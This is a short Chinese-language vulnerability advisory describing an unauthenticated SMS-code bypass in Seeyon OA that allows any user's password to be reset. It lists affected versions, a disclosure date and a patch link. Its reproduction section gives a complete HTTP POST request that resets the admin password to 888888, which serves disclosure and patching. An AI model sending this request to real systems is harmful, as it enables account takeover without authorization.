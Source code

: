 # 致远 OA 未授权短信验证码绕过重置密码漏洞

## 漏洞描述

致远互联专注于企业级管理软件领域，是一家集产品的设计、研发、销售及服务为一体高新技术企业。致远 Seeyon OA 存在短信验证码绕过重置密码漏洞，攻击者可以利用该漏洞修改任意用户密码。

参考链接：

- https://service.seeyon.com/patchtools/tp.html#/patchList?type=%E5%AE%89%E5%85%A8%E8%A1%A5%E4%B8%81&id=171

## 披露时间

```
2023.08
```

## 漏洞影响

```
V5-G6、V8.1-SP2、V8.2
```

## 漏洞复现

```
POST /seeyon/rest/phoneLogin/phoneCode/resetPassword HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 45
Connection: close

{"loginName":"admin”,”password":"888888"}
```

## 漏洞修复

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

https://service.seeyon.com/patchtools/tp.html#/patchList?type=%E5%AE%89%E5%85%A8%E8%A1%A5%E4%B8%81&id=171
